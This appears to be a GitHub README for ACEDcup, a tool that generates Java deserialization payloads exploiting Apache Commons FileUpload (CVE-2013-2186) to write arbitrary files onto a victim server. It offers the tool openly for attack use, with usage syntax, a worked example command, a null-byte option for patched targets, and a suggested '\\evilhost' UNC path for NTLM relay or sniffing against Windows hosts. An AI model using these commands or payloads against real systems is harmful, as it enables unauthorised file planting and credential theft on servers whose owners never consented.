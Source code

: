 # ACEDcup

ACEDcup tool is a payload generator for Java Binary Deserialization attack (ACED)
For Apache Commons FileUpload ver <= 1.3 (CVE-2013-2186) and Oracle JDK ver < 7u40

The attack works even for newer versions of the lib or Java. We can upload any content in any directory, but 
we cannot control a file name in this situation. Hovewer, it may be useful in some cases. 

Also we can perform aNTLM-relay/sniffing attack (using \\\\evilhost\\any\\path) if your target is on Windows OS.

## Usage
```
  java -jar aced_cup.jar /path/payload /path/target /path/out 1
  
  /path/payload - a path to a file with your payload
  /path/target - a path to a file that will be created in your victim
  /path/out - a path to a file with serialized payload
  0 - turn off null-byte ending if you attack a patched system (with null by default)
```
## Example

 ```java -jar aced_cup.jar D:\\cup_exploit\\payload.txt /home/user/test/any_name.txt D:\\cup_exploit\\emp1.ser```

